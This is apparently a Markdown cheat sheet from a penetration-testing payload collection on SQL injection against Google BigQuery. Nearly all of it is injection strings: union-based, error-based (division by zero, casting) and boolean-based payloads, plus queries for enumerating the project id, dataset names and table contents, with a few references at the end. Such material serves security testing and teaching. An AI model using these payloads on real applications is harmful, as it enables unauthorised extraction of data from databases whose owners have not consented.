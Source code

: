 # Google BigQuery SQL Injection 

## Summary

* [Detection](#detection)
* [BigQuery Comment](#bigquery-comment)
* [BigQuery Union Based](#bigquery-union-based)
* [BigQuery Error Based](#bigquery-error-based)
* [BigQuery Boolean Based](#bigquery-boolean-based)
* [BigQuery Time Based](#bigquery-time-based)
* [References](#references)

## Detection

* Use a classic single quote to trigger an error: `'`
* Identify BigQuery using backtick notation: ```SELECT .... FROM `` AS ...```

\`\`\`ps1
# Gathering project id
select @@project_id

# Gathering all dataset names
select schema_name from INFORMATION_SCHEMA.SCHEMATA

# Gathering data from specific project id & dataset
select * from `project_id.dataset_name.table_name`
\`\`\`

## BigQuery Comment

\`\`\`ps1
select 1#from here it is not working
select 1/*between those it is not working*/
\`\`\`

## BigQuery Union Based

\`\`\`ps1
UNION ALL SELECT (SELECT @@project_id),1,1,1,1,1,1)) AS T1 GROUP BY column_name#
true) GROUP BY column_name LIMIT 1 UNION ALL SELECT (SELECT 'asd'),1,1,1,1,1,1)) AS T1 GROUP BY column_name#
true) GROUP BY column_name LIMIT 1 UNION ALL SELECT (SELECT @@project_id),1,1,1,1,1,1)) AS T1 GROUP BY column_name#
' GROUP BY column_name UNION ALL SELECT column_name,1,1 FROM  (select column_name AS new_name from `project_id.dataset_name.table_name`) AS A GROUP BY column_name#
\`\`\`

## BigQuery Error Based

\`\`\`ps1
# Error based - division by zero
' OR if(1/(length((select('a')))-1)=1,true,false) OR '

# Error based - casting: select CAST(@@project_id AS INT64)
dataset_name.column_name` union all select CAST(@@project_id AS INT64) ORDER BY 1 DESC#
\`\`\`

## BigQuery Boolean Based

\`\`\`ps1
' WHERE SUBSTRING((select column_name from `project_id.dataset_name.table_name` limit 1),1,1)='A'#
\`\`\`

## BigQuery Time Based

* Time based functions does not exist in the BigQuery syntax.

## References

* [BigQuery SQL Injection Cheat Sheet - Ozgur Alp - Feb 14](https://ozguralp.medium.com/bigquery-sql-injection-cheat-sheet-65ad70e11eac)
* [BigQuery Documentation - Query Syntax](https://cloud.google.com/bigquery/docs/reference/standard-sql/query-syntax)
* [BigQuery Documentation - Functions and Operators](https://cloud.google.com/bigquery/docs/reference/standard-sql/functions-and-operators)
* [Akamai Web Application Firewall Bypass Journey: Exploiting “Google BigQuery” SQL Injection Vulnerability - By Duc Nguyen The, March 31, 2020](https://hackemall.live/index.php/2020/03/31/akamai-web-application-firewall-bypass-journey-exploiting-google-bigquery-sql-injection-vulnerability/)
